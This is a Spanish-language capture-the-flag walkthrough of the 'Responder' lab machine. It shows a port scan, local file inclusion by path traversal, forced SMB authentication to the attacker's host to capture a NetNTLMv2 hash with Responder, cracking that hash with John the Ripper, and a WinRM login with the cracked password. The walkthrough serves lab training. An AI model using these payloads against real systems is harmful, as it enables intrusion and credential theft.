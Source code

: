 Maquina: Responder

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 165411](https://github.com/user-attachments/assets/86c84ec7-1ff7-49b2-b893-ecd3e77dd4c7)

Iniciamos la máquina y verificamos la conexión.

ping 10.129.37.91 -c 1

![Screenshot 2024-11-10 165550](https://github.com/user-attachments/assets/19006c47-bf01-4c13-ae4b-787610a7809c)

Realizamos un escaneo de puertos y servicios.

sudo nmap -sVC -T4 -PN -p- 10.129.37.91

El puerto 80 está abierto y está sirviendo HTTP con Apache httpd 2.4.52 (Win64) junto con OpenSSL/1.1.1m y 
PHP/8.1.1., el puerto 5985 está abierto y está sirviendo HTTP con Microsoft HTTPAPI httpd 2.0 (utilizado por SSDP/UPnP), el puerto 7680 está abierto, el servicio asociado pando-pub.

![Screenshot 2024-11-10 170149](https://github.com/user-attachments/assets/f93fb876-05d3-4d1d-88ea-43548cc47156)

Añadimos la ip a /etc/hosts.

echo 10.129.37.91 unika.htb | sudo tee -a /etc/hosts

![Screenshot 2024-11-10 170537](https://github.com/user-attachments/assets/af12c8f1-9568-4694-b3ad-471bd8b054dc)

![Screenshot 2024-11-10 170651](https://github.com/user-attachments/assets/c75936e3-4ee7-41d8-85d8-7be1874c2b26)

En este código hay un parámetro de página. 
Al cambiar el idioma a otro, obtenemos un parámetro page=french.html en la URL.

![Screenshot 2024-11-10 171031](https://github.com/user-attachments/assets/121d8f7a-0325-4c83-8ff0-e5e87423bbbe)

Este es un caso de inclusión local de archivos

Cambiamos el valor del parámetro page=../../../../../../../../../

![Screenshot 2024-11-10 171643](https://github.com/user-attachments/assets/91fb09f9-09aa-4a7a-b890-e1b181d1754f)

Leemos el archivo /etc/hosts de nuestro objetivo usando LFI.

http://unika.htb/index.php?page=../../../../../../../../../../windows/system32/drivers/etc/hosts

Capturamos el hash NetNTLMv2 del administrador utilizando Responder. Para entender mejor el proceso, expliquemos brevemente lo que haremos.

Aprovechando la vulnerabilidad de LFI (Local File Inclusion), pediremos al servidor que intente conectarse a un recurso SMB en nuestra máquina local. 
Al hacer esto, el servidor Windows tratará de autenticarse con nuestra máquina utilizando el protocolo NTLM (New Technology Lan Manager), 
que es un sistema de autenticación desafío-respuesta desarrollado por Microsoft.

Durante este proceso, NTLM generará una cadena específicamente formateada que incluye tanto el desafío como la respuesta. 
Esta cadena es conocida como NetNTLMv2. Aunque comúnmente se le llama "hash NetNTLMv2", técnicamente no es un hash tradicional, pero se ataca de manera similar.

Con Responder, capturaremos esta cadena NetNTLMv2. 
Luego intentaremos descifrarla utilizando John The Ripper para ver qué información podemos obtener y cómo podemos usarla.

Iniciamos Responder, configurándolo para que escuche en la interfaz de red tun0, que es la interfaz por la que estamos conectados al servidor remoto.

sudo responder -I tun0

![Screenshot 2024-11-10 172931](https://github.com/user-attachments/assets/e554f06c-b8e2-4361-8ad5-f101807327ea)

Volvemos al navegador y cargamos la siguiente URL:
http://unika.htb/?page=//10.10.14.37/file

Copiamos el hash que nos da el repeater, creamos un file y le pegamos el hash.

![Screenshot 2024-11-10 173709](https://github.com/user-attachments/assets/f75b2dff-3c28-44fe-88c6-62162e77253f)

![Screenshot 2024-11-10 173539](https://github.com/user-attachments/assets/7ae7ecde-4912-420e-87b5-b79977086b55)

Utilizamos el diccionario rockyou.txt para intentar descifrar el hash con John the Ripper.

![Screenshot 2024-11-10 174643](https://github.com/user-attachments/assets/17fea937-4904-470f-a582-8f0c80187c45)

Atacamos el servicio que esta corriendo en el puerto 5985 WinRm con las credenciales obtenidas.

evil-winrm -i 10.129.37.91 -u administrator -p badminton

![Screenshot 2024-11-10 174858](https://github.com/user-attachments/assets/c999c5c0-6e4b-46ae-ae0e-356c2d0132b8)

Vamos hasta el usuario mike y conseguimos el flag.

![Screenshot 2024-11-10 174956](https://github.com/user-attachments/assets/6a37cbfb-c9ed-41a8-83b5-140cd5c73eb8)

![Screenshot 2024-11-10 175035](https://github.com/user-attachments/assets/8d422348-821a-4264-a516-cc6a02118005)

